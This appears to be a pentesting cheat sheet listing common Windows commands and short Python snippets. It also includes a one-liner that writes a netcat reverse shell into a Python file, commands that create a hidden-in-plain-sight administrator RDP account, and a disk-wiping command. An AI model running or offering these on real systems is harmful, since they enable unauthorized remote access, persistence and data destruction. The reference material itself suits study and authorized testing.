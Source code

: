 # **Windows Commands**

- **Show Hidden Files**
  ```
  dir /A
  ```

- **Print File Content**
  ```
  type file.txt
  ```

- **Grep Equivalent**
  ```
  findstr file.txt
  ```

- **Show Network Information**
  ```
  netstat -an
  ```

- **Show Network Adapter Info**
  ```
  ipconfig
  ```

- **Traceroute**
  ```
  tracert
  ```

- **List Processes**
  ```
  tasklist
  ```

- **Kill a Process**
  ```
  taskkill /PID 1532 /F
  ```

- **Shred Disk**
  ```
  cipher /w:C:\
  ```

- **Mounting and Mapping**
  ```
  wmic logicaldisk get deviceid, volumename, description
  ```

### Scripts for Fun:

- **Make Request**
  ```python
  import requests

  req = requests.get("http://site.com")
  print req.status_code
  print req.text
  ```

- **Read and Write to Files**
  ```python
  file_open = open("readme.txt", "r")
  for line in file_open:
      print line.strip("\n")
      if line.strip("\n") == "rad 4":
          print "last line"
  ```

- **Echo to Python File for Reverse Shell**
  ```
  echo 'import os; os.system("/bin/nc ip port -e /bin/bash")' > /opt/tmp.py
  ```

### Windows RDP Operations:

- **Add RDP User**
  ```
  net user hodor Qwerty123! /add
  net localgroup administrators hodor /add
  net localgroup "Remote Desktop Users" hodor /add
  ```
